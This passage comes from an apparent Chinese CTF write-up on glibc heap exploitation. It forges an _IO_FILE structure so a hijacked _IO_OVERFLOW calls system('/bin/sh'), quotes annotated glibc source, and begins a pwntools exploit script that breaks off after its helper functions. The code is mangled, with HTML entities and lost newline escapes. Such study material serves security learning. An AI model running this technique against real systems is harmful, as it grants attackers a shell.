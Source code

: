 ```
                       &gt; fp-&gt;_wide_data-&gt;_IO_write_base))
   #endif
          )
         &amp;&amp; _IO_OVERFLOW (fp, EOF) == EOF)  //D 伪造的FILE结构体,执行system函数
       result = EOF;
  
         if (do_lock)
       _IO_funlockfile (fp);
         run_fp = NULL;
   
         if (last_stamp != _IO_list_all_stamp)
       `{`
         /* Something was added to the list.  Start all over again.  */
         fp = (_IO_FILE *) _IO_list_all;
         last_stamp = _IO_list_all_stamp;
       `}`
         else
       fp = fp-&gt;_chain;  // B： 这里指向了我们可控的区域，偏移为0x68
       `}`
```

从源代码中我们知道__IO_list_all最开始为main_arena的unsorted bin数组（代码A），不可控，如果我们构造适当的chunk使其在free后存放到了main_arena的unsorted bin数组偏移的0x68处，这样就可以实现fp指向我们可控的数据（代码B），然后绕过限制条件（代码C），在构造好的IO_FILE里面的vtable（不懂的需要看前面的那篇溢出利用FILE结构体），执行_IO_OVERFLOW（实为system函数地址）函数，fp最开始的数据我们存放“/bin/sh”，所以最终执行system("/bin/sh")，得到shell（代码D）。

 

**五、exp**



```
from pwn import *
  from ctypes import *
   
  DEBUG = 1
  if DEBUG:
      p = process('./note')
  else:
      #p = remote('106.75.84.74', 10001)
   
   def add_note(size):
       p.recvuntil('option---&gt;&gt;')
       p.send('1n')
       p.recvuntil('the size:')
       p.send(str(size)+'n')
       data=p.recvuntil('n')
       try:
           ptr=int(data[:-1],16)
       except:
           print data
           return
       return ptr
  
   def delete_note():
       p.recvuntil('option---&gt;&gt;')
       p.send('4n')
   
   def edit_note(data):
       if "n" in data:
           print "yes"
       p.recvuntil('option---&gt;&gt;')
       p.send('3n')
       p.recvuntil('content:')
       p.send(data+'n')
        
```